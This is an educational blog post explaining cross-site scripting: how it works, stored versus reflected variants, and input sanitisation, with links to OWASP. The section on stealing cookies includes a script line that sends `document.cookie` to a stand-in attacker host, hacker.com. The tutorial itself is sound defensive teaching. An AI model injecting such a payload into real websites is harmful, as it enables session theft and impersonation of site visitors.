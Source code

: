 ```yaml
---
slug: xss
date: 2020-06-28
title: 'Be careful of XSS attacks'
description: 'Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.'
published: true
author: 'ZBIRI Walid'
banner: './xss-simple-tutorial.png'
---
```

# Table of contents
1. [Introduction](#introduction)
2. [What is Cross Site Scripting (XSS)](#paragraph1)
3. [What can the hacker do with JavaScript scripts ?](#paragraph2)
4. [How xss attack works ?](#paragraph4)  
    4.1 [Stealing Cookies using XSS](#paragraph4.1)
5. [Stored VS Reflected XSS Attacks](#paragraph5)  
    &nbsp; 5.1 [Stored XSS Attacks](#paragraph5.1)  
    &nbsp; 5.2 [Reflected XSS Attacks](#paragraph5.2)
6. [Cross Site Scripting Prevention](#paragraph6) 
7. [Wrap up](#paragraph7) 

# Introduction <a name="introduction"></a>
Hello geeks, in this blog, we will cover two famous attacks in web applications that every web developer (Backend or Frontend) should know.
We will define XSS and CSRF attacks, then give some advices to protect your websites from this attacks.
>> This article is just for learning purposes!


# What is Cross Site Scripting (XSS) <a name="paragraph1"></a>
The cross site scripting is one of the famous attacks in web apps, it's about injecting a script in your web app
that will execute malicious commands on the client browser.  
In the XSS attack, the hacker doesn’t target your web app in the first place. But he use it as a bridge to attack your visitors.
# What can the hacker do with JavaScript scripts ? <a name="paragraph2"></a>
Most web browsers run JavaScript in a very tightly controlled environment. JavaScript has limited access to the user’s operating system and the user’s files. However, JavaScript can still be dangerous if misused as part of malicious content:
- Malicious JavaScript has access to all the objects that the rest of the web page has access to. This includes access to the user’s cookies. Cookies are often used to store session tokens. If an attacker can obtain a user’s session cookie, they can impersonate that user, perform actions on behalf of the user, and gain access to the user’s sensitive data.
- JavaScript in modern browsers can use HTML5 APIs. For example, it can gain access to the user’s geolocation, webcam, microphone, and even specific files from the user’s file system. Most of these APIs require user opt-in, but the attacker can use social engineering to go around that limitation.
- JavaScript can make Ajax Calls through the XMLHttpRequest object or using fetch API.
With these functionnalities in combination with social engineering, criminals can run some advanced attacks like cookie theft, keylogging and identity theft etc ...
# How xss attack works ? <a name="paragraph4"></a>
In XSS attack there is 3 actors:<br/>
1. Your website visitors<br/>
2. Your website (Bridge)<br/>
3. The hacker<br/>

Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.  
The actual attack occurs when the victim visits the web page or web application that executes the malicious code. The web page or web application becomes a vehicle to deliver the malicious script to the user’s browser. Vulnerable vehicles that are commonly used for Cross-site Scripting attacks are forums, message boards, and web pages that allow comments.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.
## Stealing Cookies using XSS:<a name="paragraph4.1"></a>
![cookie](./how-xss-works-910x404.png)
Criminals usually uses XSS to steal user cookies. This allows them to impersonate the victim.
The attacker can send the cookie to their own server in many ways. For example with injecting this peace of code:
``` html
<script>
window.location="http://hacker.com/?cookie=" + document.cookie
</script>
```
1- The attacker injects a payload into the website’s database by submitting a vulnerable form with malicious JavaScript content.<br/>
2- The victim requests the web page from the web server.<br/>
3- The web server serves the victim’s browser the page with attacker’s payload as part of the HTML body.<br/>
4- The victim’s browser executes the malicious script contained in the HTML body. In this case, it sends the victim’s cookie to the attacker’s server.<br/>
5- The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives at the server.<br/>
6- The attacker can now use the victim’s stolen cookie for impersonation.<br/>

# Stored and Reflected XSS Attacks <a name="paragraph5"></a>
XSS attacks can generally be categorized into two categories: stored and reflected.
## Stored XSS Attacks (No Need for Social engineering) <a name="paragraph5.1"></a>
![stored](./stored-XSS.png)
Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. So all your websites visitors are going to be affected by the script. The victim then retrieves the malicious script from the server when it requests the stored information. Stored XSS is also sometimes referred to as Persistent.
## Reflected XSS Attacks (Need Social engineering) <a name="paragraph5.2"></a>
![reflected](./reflected-xss.png)
First of all what do we mean by reflected? So let's say you navigate to __www.example.com/page?main.html__ and it puts you on the main page of __example.com__. Now you navigate to the index, which is located at __www.example.com/page?index.html__. You start to wonder, what other pages are there?

So you type in __www.example.com/page?foo__ and hit enter, and you get an error page which will say something like "Resource foo is not found".

The thing to note here is that you put a parameter into the URL, and that parameter got reflected back to you as the user. In this case, it was the parameter "foo".

Now the idea behind reflected XSS should be a bit more clear; instead of inputting a parameter like "foo", you input something like ``<script>malicious code</script>foo`` and hit enter. On a vulnerable site, that entire parameter will get injected into the error page that pops up, the javascript will execute, in addition to the "Resource foo is not found" message. If you can induce somebody else navigate to the same link that you crafted, you can execute arbitrary javascript in their session.
# Cross Site Scripting Prevention <a name="paragraph6"></a>
To keep yourself safe from XSS, you must sanitize your input. Your application code should never output data received as input directly to the browser without checking it for malicious code.

For more details, refer to the following [cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) maintained by the OWASP organization.
# Wrap up <a name="paragraph7"></a>
While testing, it is highly recommended to evaluate the risks that bring possible XSS attacks. XSS attack can affect web applications, that seem to be secure as well.

It is considered to be one of the most harmful and risky attacks. Hence, we should not forget this type of testing. While performing testing against XSS, it is important to have a good knowledge about this attack.
### Useful resources:
1. [XSS By OWASP](https://owasp.org/www-community/attacks/xss/)
2. [XSS Prevention By OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
